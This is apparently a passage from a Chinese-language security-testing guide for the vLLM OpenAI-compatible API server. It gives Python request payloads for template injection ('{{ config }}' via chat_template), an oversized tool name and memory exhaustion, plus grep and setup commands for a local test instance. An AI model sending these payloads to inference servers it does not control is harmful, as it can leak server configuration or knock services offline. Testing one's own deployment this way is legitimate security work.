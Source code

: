 ### 2. 尝试其他类型的漏洞
既然assert漏洞不存在，可以测试其他类型的漏洞：

```python
# 1. 模板注入
payload = {
    "model": "test",
    "messages": [{"role": "user", "content": "{{ config }}"}],
    "chat_template": "{{ messages[0].content }}"
}

# 2. JSON注入
payload = {
    "model": "test",
    "messages": [{"role": "user", "content": "test"}],
    "tools": [{"type": "function", "function": {"name": "a" * 100000}}]
}

# 3. 内存耗尽
payload = {
    "model": "test", 
    "messages": [{"role": "user", "content": "A" * 1000000}] * 100
}
```

### 3. 源码验证
如果可能，直接检查服务器运行的源码：

```bash
# 查找assert语句
grep -r "assert.*is not None" /path/to/vllm/

# 检查是否有修复
git log --grep="assert" --since="2024-01-01"
```

## 测试环境建议

### 1. 搭建测试环境
```bash
# 使用开发模式启动vLLM (不使用-O优化)
python -m vllm.entrypoints.openai.api_server \
    --model gpt2 \
    --port 8000 \
    --host 0.0.0.0
```

### 2. 使用Docker测试
```bash
# 使用官方镜像
docker run -p 8000:8000 vllm/vllm-openai:latest \
    --model gpt2
```
